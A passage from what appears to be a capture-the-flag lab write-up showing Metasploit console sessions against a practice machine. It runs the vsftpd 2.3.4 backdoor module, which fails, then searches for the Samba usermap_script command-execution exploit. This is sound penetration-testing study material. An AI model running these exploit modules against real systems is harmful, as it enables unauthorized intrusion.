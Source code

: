 ```

Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhost 10.10.10.3
rhost => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set lhost 10.10.14.6
lhost => 10.10.14.6

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit
                                      -framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.

```
{% endcode %}

A walkthrough was used to determine that vsftpd was not exploitable in this machine. Appears that vsftpd is NOT exploitable without the password.

TRY ANOTER ATTACK VECTOR - Check the Samba connection for exploits. Search command for usermap\_script to find its exploits.

{% code lineNumbers="true" %}
```
msf6 > search usermap_script

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


```